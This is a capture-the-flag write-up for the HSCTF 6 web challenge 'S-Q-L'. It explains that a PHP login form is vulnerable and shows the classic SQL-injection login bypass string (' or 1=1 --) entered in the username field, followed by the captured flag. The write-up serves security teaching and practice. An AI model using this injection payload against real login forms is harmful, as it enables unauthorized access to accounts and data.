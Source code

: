 # S-Q-L

| Event | Title | Category | Cost |
|:------|:----------|:---------|-------:|
| HSCTF 6 | S-Q-L| WEB | ~100 |

### Discription
>Written by: dwang
>
>Keith keeps trying to keep his flag safe. This time, he used a database and some PHP.
>
>https://s-q-l.web.chal.hsctf.com/

### Solution

On the page we see the authorization form.

![](https://github.com/Red-Cadets/HSCTF-6/blob/master/WEB/images/2_3.png?raw=true)

From the name of the task, we understand that the `SQL database` is used.
We apply the simplest SQL-injection.
```
login:    ' or 1=1 -- 123
password: any
```
![](https://github.com/Red-Cadets/HSCTF-6/blob/master/WEB/images/3_2.PNG?raw=true)

##### Flag

```
hsctf{mysql_real_escape_string}
```
